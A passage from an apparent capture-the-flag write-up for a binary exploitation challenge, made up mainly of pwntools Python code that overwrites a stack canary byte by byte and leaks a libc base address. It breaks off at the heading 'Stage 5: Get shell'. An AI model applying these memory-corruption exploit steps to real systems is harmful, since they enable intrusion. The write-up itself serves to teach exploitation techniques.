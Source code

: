 ```python
)
payload = payload[::-1]
for i in range(len(payload)):
	for size in findbyte(p8(payload[i]), datas, offset - i):
		datas = datas[size:]
		p.sendline(f'{size}'.encode())
		p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

### Stage 4: Leak libc address ###

This stage is just the same as the previous stage:

```python
with open('data/1MB', 'rb') as f:
	datas = f.read()

# Overwrite canary, saved rbp, saved rip of the subfunction
# and concate with saved rip of main, which is libc address
offset1 = 0x128
offset2 = 0x120
datas = datas[offset1:]
p.sendlineafter(b'choice: ', b'2')
p.recvuntil(b'read: ')
p.sendline(b'4')
p.recvuntil(b'read?')
p.sendline(f'{offset1}'.encode())

output = p.recvuntil(b'\nHow many bytes to read?', drop=True)
libc_leak = u64(output[offset1:offset1+6] + b'\0\0')
libc.address = libc_leak - 0x29d90
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))

# Recover canary, saved rbp, saved rip of the function
payload = flat(
	canary,
	stack_leak,
	exe_leak,
	)[::-1]
for i in range(len(payload)):
	for size in findbyte(p8(payload[i]), datas, offset2 - i):
		datas = datas[size:]
		p.sendline(f'{size}'.encode())
		p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

### Stage 5: Get shell ###

We input payload in a reverse order as previous stage:
